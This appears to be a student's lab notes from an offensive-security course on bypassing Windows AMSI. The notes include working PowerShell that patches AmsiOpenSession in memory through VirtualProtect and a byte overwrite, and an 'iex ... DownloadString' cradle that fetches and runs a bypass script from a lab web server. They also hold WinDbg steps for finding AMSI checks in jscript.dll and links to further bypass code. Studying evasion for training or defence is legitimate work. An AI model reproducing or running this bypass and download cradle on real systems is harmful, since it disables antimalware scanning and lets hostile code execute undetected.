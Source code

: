 ```powershell

	return $type.CreateType()
}

[IntPtr]$funcAddr = LookupFunc amsi.dll AmsiOpenSession
$oldProtectionBuffer = 0
$vp=[System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((LookupFunc kernel32.dll VirtualProtect), (getDelegateType @([IntPtr], [UInt32], [UInt32], [UInt32].MakeByRefType()) ([Bool])))
$vp.Invoke($funcAddr, 3, 0x40, [ref]$oldProtectionBuffer)
$buf = [Byte[]] (0x48, 0x31, 0xC0) 
[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $funcAddr, 3)
$vp.Invoke($funcAddr, 3, 0x20, [ref]$oldProtectionBuffer)
```

- Download from web server 
```powershell
 iex (New-Object Net.WebClient).DownloadString('http://192.168.45.176:8000/07AMSIBypass.ps1')
```
### TODO: Try doing AMSI bypass in C#

### TODO 7.4.2 Q2 
- cannot get wmi to work on homelab instance

#### 7.4.2 Extra Mile

Create a similar AMSI bypass but instead of modifying the code of _AmsiOpenSession_, find a suitable instruction to change in _AmsiScanBuffer_ and implement it from reflective PowerShell.
- https://github.com/rasta-mouse/AmsiScanBufferBypass/blob/main/AmsiBypass.cs
- https://github.com/rogdooley/OSEP-Code-And-Notes/blob/main/Windows/Powershell/ASBB.ps1


#### 7.6.2 Is That Your Registry Key

- In Windbg on current Win10 `bu jscript!JAmsi::JAmsiIsEnabledByRegistry` doesn't seem to exist
	- In Windbg load Wmscript.exe and a malicious js file
	- set breakpoint `bu jscript!JAmsi::JAmsiIsEnabledByRegistry`
	- continue to breakpoing `g`
	- throws error
	- look in jscript.dll using `lmDvmjscript`
	- find functions in jscript.dll  that are like jscript!j* using `x /D /f jscript!jA*`
	
![](Images/WindbgSearchingForJscriptAMSI.png)

On Win 10 build 17763 (Offsec lab):
![](Images/WindbgWin10B17763JscriptAmsi.png)
- this appears to show that JAsmiIsEnabledByRegistry is no longer a function in the jscript.dll

#### Windbg with wscript.exe and a malicious .js

- Start debugging session
- `bu amsi!AmsiScanBuffer`
